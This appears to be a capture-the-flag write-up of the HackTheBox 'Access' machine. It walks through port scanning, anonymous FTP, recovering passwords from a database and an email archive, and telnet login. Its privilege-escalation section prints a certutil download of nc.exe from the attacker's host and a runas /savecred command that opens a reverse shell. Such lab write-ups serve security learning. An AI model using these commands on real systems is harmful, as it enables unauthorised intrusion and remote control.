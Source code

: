 ```yaml
---
title: "HTB Write-up: Access"
date: 2018-12-19
category: [HackTheBox]
tags: [HackTheBox, HTB, windows, runas, certutil, 7z, readpst]
header:
    teaser: "/assets/images/htb/access/access.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![access_info.png](/assets/images/htb/access/access_info.png)

*Note: I completed this challenge on December 19th, 2018, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this initial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.98
```

From `masscan`, it was revealed that TCP ports 21 (FTP), 23 (Telnet), and 80 (HTTP) were listening for connections. Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 21,80,23 -sC -sV -oA scans/discovered-tcp 10.10.10.98 
```

As expected, the services listening for connections on Access were FTP, Telnet, and HTTP. A screenshot of the result of the `nmap` scan is shown below.

![nmapresults.png](/assets/images/htb/access/nmapresults.png)

Of notable significance in this result is the "Anonymous FTP login allowed" line. This means that a user may access the FTP server running on Access as an anonymous user (with no password required). The process of accessing the FTP server in this manner is shown in the image below.

![ftp.png](/assets/images/htb/access/ftp.png)

Two directories were found in the root directory of the FTP server; a `Backups` directory and an `Engineer` directory. Searching through these directories revealed two interesting files; `backup.mdb` in the `Backups` directory and `Access Control.zip` in the `Engineer` directory. The FTP command `get` can be used to transfer the remote files to the local testing host. Depending on the contents being transferred with `get`, it is often advisable to transfer the data in binary mode (as opposed to in ASCII (text) mode). Binary mode transfers data byte-for-byte while ASCII mode will convert line endings from those of the sending system to those of the receiving system. Binary mode can be enabled with the FTP `binary` command. 

Once `backup.mdb` and `Access Control.zip` have been retrieved from the remote FTP server, they can be more thouroughly examined with the Linux `file` command. An example of this is demonstrated below.

```
root@kali:~/workspace/hackthebox/Access# file backup.mdb; file 'Access Control.zip'
backup.mdb: Microsoft Access Database
Access Control.zip: Zip archive data, at least v2.0 to extract
```

As files with the `.mdb` extension are not commonly used in Linux environments, a little searching was required to determine how to work with this Microsoft Access Database file type. The [MDBOpener](https://www.mdbopener.com) website was used to upload the `backup.mdb` Microsoft Access Database base, extract the contents, and export the data in CSV format. After parsing through the various tables present within the backup database, the `auth_user` table was eventually found, the contents of which are shown in the image below.

![authuser_csv.png](/assets/images/htb/access/authuser_csv.png)

As the content within the `auth_user` table appears to contain username-password combinations, the username-password pairs were used in attempts to access the Telnet server running on TCP port 23 of the target system, but to no avail. Time to look elsewhere.

Moving on to the second file retreived from the FTP server, the `'Access Control.zip'` file can be unzipped using the `7z` tool, as shown below.

```
root@kali:~/workspace/hackthebox/Access# 7z x 'Access Control.zip'
```

In this case, the file is password protected. Using the password `access4u@security` password found previously in the `auth_user` table within the Microsoft Access Database successfully unzips the `'Access Control.zip'` file, revealing the `'Access Control.pst'` file. Checking this file out with `file` reveals that the `.pst` file is a Microsoft Outlook email folder:

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.pst'
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

After a little research, it was found that the `readpst` tool as provided by the `pst-utils` package can be used to read the information within a `.pst` file. If necessary, `pst-utils` can be installed with the `apt-get install pst-utils` command. After using `read-pst` to reclaim the contents within the `'Access Control.pst'` file, the `'Access Control.mbox'` file is returned.

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.mbox'
Access Control.mbox: HTML document, UTF-8 Unicode text, with very long lines
```

As this contains UTF-8 Unicode text, it can be read using `vi`. A snippet of the contents within the `'Access Control.mbox'` file is shown below.

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

Thanks for the information, John. 

The username `security` with the password `4Cc3ssC0ntr0ller` can be used to log in Access using `telnet`. At this point, the `user.txt` flag can be read. This process is shown in the screenshot below.

![user_txt.png](/assets/images/htb/access/user_txt.png)

## Root
While running through the usual privelege escalation enumeration commands, something stood out as odd. After running the `net users administrator` command, it was revealed that the "Password Not Required" property has been set for the Administrator user. This means that the Administrator user is allowed passwordless logon to the system.

![net_user.png](/assets/images/htb/access/net_user.png)

Investigating this property further with the Windows `cmdkey /list` command, it can be seen that the Administrator user has a stored credential on the system.

![cmdkey.png](/assets/images/htb/access/cmdkey.png)

Continuing enumeration, the `ZKAccess3.5 Security System.lnk` shortcut file found on the Public user's desktop suggests that commands can be run as the Administrator using the `runas` Windows command along with the `/savecred` flag. The `runas` command can be used to run a Windows command as another system user. 

![savecred_link.png](/assets/images/htb/access/savecred_link.png)

Putting these pieces together, it is clear that system commands can be run as the Administrator user if the `/savecred` flag is included as part of the `runas` command. The fact that the Administrator does not need a password to logon to the system, that the Administrator user has a stored credential on the system, and that the `runas` command with the `/savecred` flag is being used on the system suggests a possible privelege elevation scenario.

To leverage this situtation, `nc.exe` can be transferred to the target system and then used to obtain a reverse shell that connects to the attacking machine.

In this case, the `certutil` Windows tool is used on the target system to download `nc.exe`to the target system. After using Python's `SimpleHTTPServer` to host `nc.exe` on the attacking system, the `certutil` command shown below was run on the target system to download the `nc` executable to the system.

```
C:\Users\security\Music>certutil.exe -urlcache -split -f http://10.10.14.2/nc.exe nc.exe
```

A screenshot of this process is included below.

![cert_util.png](/assets/images/htb/access/cert_util.png)

With `nc.exe` on the target system and a `nc` listener listening on the attacking system, the command shown below was run on the target system to create a reverse shell connection to the attacking system.

```
C:\Users\security\Music>runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.2 4444"
```

From the connection received on the attacking system, the `root.txt` flag can be read.

![root_txt.png](/assets/images/htb/access/root_txt.png)
